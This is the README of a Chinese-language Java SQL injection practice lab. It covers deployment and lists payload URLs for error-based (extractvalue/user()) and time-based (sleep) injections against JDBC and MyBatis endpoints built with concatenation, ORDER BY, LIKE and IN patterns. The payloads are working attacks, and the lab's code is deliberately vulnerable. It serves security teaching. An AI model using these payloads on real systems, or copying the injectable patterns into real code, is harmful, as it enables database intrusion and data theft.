# Java-SQL注入靶场

# 部署

修改`src/main/resources/application-dev.yml`中的数据库信息



将表导入数据库`src/main/resources/user.sql`



## 一、JDBC

**src/main/java/com/uzju/dongtai_sql_inject_lab/controller/JDBCInject.java**

### 1、+号拼接

#### 1.1、PAYLOAD

```bash
/jdbc/statement_and_inject?id=1'+and+extractvalue(1,concat(0x7e,user()))--+
```

 

#### 1.2、实现代码



### 2、prepareStatement注入+号拼接

#### 2.1、PAYLOAD

```bash
/jdbc/preparestatement_and_inject?id=1'+and+extractvalue(1,concat(0x7e,user()))--+
```



#### 2.2、实现代码



### 3、prepareStatement Orderby注入

#### 3.1、PAYLOAD

```bash
/jdbc/preparestatement_orderby_inject?id=1&orderby=id+and+extractvalue(1,concat(0x7e,user()))
```



#### 3.2、代码实现



### 4、prepareStatement like注入

#### 4.1、PAYLOAD

```bash
/jdbc/preparestatement_like_inject?id=1%25'+and+extractvalue(1,concat(0x7e,user()))--+
```



#### 4.2、代码实现



### 5、prepareStatement in注入

#### 5.1、PAYLOAD

```bash
/jdbc/preparestatement_in_inject?id=1)+and+extractvalue(1,concat(0x7e,user()))--+
```



#### 5.2、代码实现




## 二、Mybatis

### 1、mybatis ${}注入

#### 1.1、PAYLOAD

```bash
/mybatis/getUser_inject?id=1+and+sleep(3)
```



### 2、mybatis orderby注入

#### 2.1、PAYLOAD

```bash
/mybatis/getUser_orderby_inject?id=1&getparse=id+and+if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))
```



### 3、mybatis like注入

#### 3.1、PAYLOAD

```bash
/mybatis/getUser_like_inject?id=1&username=admin'+and+sleep(3)--+
```



### 4、mybatis in注入

#### 4.1、PAYLOAD

```bash
/mybatis/getUser_in_inject?id=1)+and+sleep(3)--+
```


